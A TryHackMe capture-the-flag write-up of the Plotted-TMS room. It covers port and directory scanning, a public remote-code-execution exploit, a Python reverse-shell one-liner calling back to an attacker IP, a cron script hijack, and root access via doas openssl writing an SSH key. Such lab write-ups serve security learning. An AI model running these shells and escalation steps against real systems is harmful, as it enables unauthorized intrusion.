 ```yaml
---
title: "TryHackMe - Plotted-TMS"
author: Nasrallah
description: ""
date: 2022-11-25 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, rce, cronjob, openssl]
img_path: /assets/img/tryhackme/plotted
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Plotted-TMS](https://tryhackme.com/room/plottedtms) from [TryHackMe](https://tryhackme.com). The target is running a web application vulnerable to remote code execution giving us the initial foothold. Looking through the system files, we find a cronjob running, so we exploit it to upgrade to use plot_admin. After that we find that we can run openssl as root so we use that to get root access.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.76.208
Host is up (0.11s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a36a9cb11260b272130984cc3873444f (RSA)
|   256 b93f8400f4d1fdc8e78d98033874a14d (ECDSA)
|_  256 d08651606946b2e139439097a6af9693 (ED25519)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found three open ports, ssh is running on port 22 as usual, an apache web server on port 80 and the same on port 445 which is weird because this port is usually for SMB.

## Web

Let's go to the web page on port 80.

![](1.png)

Got the default page of Apache2.

### Gobuster

Let's run a directory scan.

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.76.208/ | tee scans/gobuster     
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.76.208/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2022/10/26 03:19:42 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/admin                (Status: 301) [Size: 312] [--> http://10.10.76.208/admin/]
/index.html           (Status: 200) [Size: 10918]
/passwd               (Status: 200) [Size: 25]
/server-status        (Status: 403) [Size: 277]
/shadow               (Status: 200) [Size: 25]
===============================================================

```

We some interesting directories, let's check them.

![](2.png)

The admin page contains a file named id_rsa, but that's has a base64 encoded string that says "Trust me it is not this easy..now get back to enumeration :D"

The same applies to the other directories.

Let's run another directory scan for port 445.

```terminal
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.76.208:445/ | tee scans/gobuster2
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.76.208:445/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2022/10/26 03:27:55 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 10918]
/management           (Status: 301) [Size: 322] [--> http://10.10.76.208:445/management/]
/server-status        (Status: 403) [Size: 278]
===============================================================
```

Found a page called **/management**, let's check it.

![](3.png)

It's the default page of `Traffic Offense Management System`

# **Foothold**

Searching on google for this management system, i found it's vulnerable to Remote Code Execution, here is the [exploit](https://www.exploit-db.com/exploits/50221).

We run the exploit which uploads a shell and give us the ability to run commands.

![](4.png)

Couldn't execute command because of an error, so i copied the URL and used it in the browser.

![](5.png)

Now let's get a reverse shell. We can do that in two different ways, either we upload a [Pentest Monkey's reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) or we execute the following command after setting up the listener:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![](6.png)

# **Privilege Escalation**

After some manual enumeration, we find a cronjob running as `plot_admin`.

```terminal
www-data@plotted:/$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* *     * * *   plot_admin /var/www/scripts/backup.sh

```

We can't modify the file, but the script is located in /var/www/scripts directory which we have full control of. So we can create another backup.sh file that would send us a reverse shell as plot_admin.

```bash
www-data@plotted:/var/www/scripts$ mv backup.sh backup.sh.bak
www-data@plotted:/var/www/scripts$ echo '#!/bin/bash' > backup.sh
www-data@plotted:/var/www/scripts$ echo "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'"

```

![](7.png)

After this, i uploaded a copy of linpeas, run it and found the following:

![](8.png)

`doas` enables us to run commands as other users, and here we see we can run `openssl` as root.

If we check [GTFOBins](https://gtfobins.github.io/gtfobins/openssl/#file-read), we see that we can read any file using this command `openssl enc -in {file}`. Let's specify the file we want to read which is /root/root.txt, and add `doas` at the beginning of the command.

![](9.png)

We can also write files, and to get a root shell, we can copy our public key to /root/.ssh/authorized_keys. To do that we can use the following command:

```bash
cat sirius.pub | doas openssl enc -out /root/.ssh/authorized_keys
```

Then we can ssh to the target as root without any password.

![](10.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
